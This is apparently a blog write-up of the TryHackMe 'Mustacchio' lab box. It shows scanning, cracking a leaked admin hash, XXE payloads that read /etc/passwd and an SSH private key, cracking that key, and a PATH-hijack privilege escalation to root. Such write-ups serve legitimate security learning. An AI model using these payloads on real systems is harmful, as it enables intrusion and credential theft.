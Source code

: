 ```yaml
---
title: 'Tryhackme - Mustaccio Writeup'
description: 'Deploy and compromise the machine!' 
publishedAt: '2023-07-20'
---
```


# Tryhackme - Mustaccio (Easy)
Deploy and compromise the machine!

## Scanning the system
```bash
sudo nmap -sS -sV -p- -oN nmap.initial mustacchio.thm
```
Results:
```
Starting Nmap 7.94 ( https://nmap.org ) at 2023-07-20 14:28 CEST
Nmap scan report for mustacchio.thm (10.10.150.63)
Host is up (0.030s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.15 seconds
```
Interesting to see multiple web servers running on a host. Nginx on port 8765 might be interesting because it's not running an a standart port.

## Enumerating Apache 
### Manual enumeration
There doesn't seem to be much going on the website served. It's only html files and robots.txt didn't gain us anything either.

### Bruteforcing directories
Even though I am more curious about nginx running on 8765, i started a dirscan just in case. While this was running, i went on to enumerating nginx.
```bash
gobuster dir -u http://mustacchio.thm -w /opt/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
```
/images (Status: 301)
/custom (Status: 301)
/fonts (Status: 301)
/server-status (Status: 403)
```

## Enumerating nginx
### Manual enumeration
:article-img{src="/tryhackme-mustacchio/admin-panel.png"}
On the home page we're greeted by a admin panel with a login form. It's asking us for a username and password. I looked through the source of the page to check if there was any credentials in there, but no easy win today.

### Bruteforcing directories
There could be a directory that contains some credentials so let's run a quick scan for directories.

```bash
gobuster dir -u http://mustacchio.thm:8765 -w /opt/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```
```
/assets (Status: 301)
/auth (Status: 301)
```

## Gaining access
While the scan on nginx was running i noticed that the directory scan on apache had finished. I looked through a few of the folders and found a `users.bak` in http://mustacchio.thm/custom/js/.

Running `file users.bak`{lang="bash"} showed that this file contained a SQLite 3 database.
I opened it and extracted a user and password from it.
```bash
sqlite3 users.bak
SQLite version 3.42.0 2023-05-16 12:36:15
Enter ".help" for usage hints.
sqlite> .tables
users
sqlite> select * from users;
admin|1868e36a6d2b17d4c2745f1659433a54d4......
```
The password looks like a hash so i quickly ran it through (crackstation)[https://crackstation.net/], this resulted in a password that allowed us to login into the admin panel.

## Exploiting the admin panel
:article-img{src="/tryhackme-mustacchio/add-comment.png"}
Inside the sourcecode of the admin panel there is the following comment which gives us a username to login to with SSH.
```html
<!-- Barry, you can now SSH in using your key!-->
```

On the panel we can add comments. Submitting normal text just resulted in 3 empty fields being returned. 
```
Name:

Author :

Comment :
```
I looked how the request was made and noticed the name of the post field was `xml`.
I tried some things and the following xml resulted into some of the fields being filled.
```xml
<post>
  <name>Barry</name>
  <author>Barry</author>
  <comment>Hello</comment>
</post>
```
This confirmed to me that there was something parsing xml on the backend.

### Exploting the XML using XXE
I searched up some XXE examples and submitted them in the admin panel.
After a few tries the following returned the contents of `/etc/passwd`.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<post><name>&xxe;</name></post>
```
So XXE was definitely the way forward. Since we found the comment earlier talking about barry's SSH key, i tried to get his key from his home directory.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<post><name>&xxe;</name></post>
```
This was a success and we now have his (encrypted) private key.

## Getting into SSH
We have a key and we know who it belongs to, so all we need is to find the password of the key. I tried the same password as for the admin panel but no luck there. Let's try to bruteforce it.


I use this stupid workaround to get ssh2john working on my laptop and extract the hash.
```bash
sed 's/decodestring/decodebytes/' /usr/bin/ssh2john | python - key > ssh-hash
```
After that we can crack the hash with john.
```bash
john ssh-hash --wordlist=/opt/wordlists/rockyou.txt
```
This successfully cracks the password and allows us to login to the barry user via SSH.

## Escalating our privileges
I start enumarting the usual stuff on linux systems. Sudo perms, cronjobs, capabilities, SUID binaries, etc.

There is an interesting SUID binary at `/home/joe/live_log`, it's owned by root and it's some sort of executeable.

Executing it and using `strings` we can see that it's running the command `tail -f /var/log/nginx/access.log`. Since it's not using a absolute path we can use the PATH variable to execute our own version of tail.
```bash
barry@mustacchio:~$ cp /bin/bash .
barry@mustacchio:~$ mv bash tail
barry@mustacchio:~$ chmod +x tail
barry@mustacchio:~$ export PATH=/home/barry/:$PATH
barry@mustacchio:~$ which tail
/home/barry//tail
```

We get absolutely spammed with messages, and can't execute any commands. 
```
/var/log/nginx/access.log: line 14046: 10.14.xxx.139: command not found
/var/log/nginx/access.log: line 14047: 10.14.xxx.139: command not found
/var/log/nginx/access.log: line 14048: 10.14.xxx.139: command not found
/var/log/nginx/access.log: line 14049: 10.14.xxx.139: command not found
/var/log/nginx/access.log: line 14050: 10.14.xxx.139: command not found
/var/log/nginx/access.log: line 14051: 10.14.xxx.139: command not found
/var/log/nginx/access.log: line 14052: 10.14.xxx.139: command not found
/var/log/nginx/access.log: line 14053: 10.14.xxx.139: command not found
/var/log/nginx/access.log: line 14054: 10.14.xxx.139: command not found
/var/log/nginx/access.log: line 14055: 10.14.xxx.139: command not found
```

Let's retry using another binary.
```bash
barry@mustacchio:~$ cp /usr/bin/vim .
barry@mustacchio:~$ mv vim tail
barry@mustacchio:~$ chmod +x tail
```
This time we simply get the log file opened in vim and we can open a shell by typing `:!bash`.
```
root@mustacchio:~# id
uid=0(root) gid=0(root) groups=0(root),1003(barry)
```

## Conclusion
This was a nice and easy box. The route was quite clear along the way, and we could easily escalate our privileges using the PATH variable.
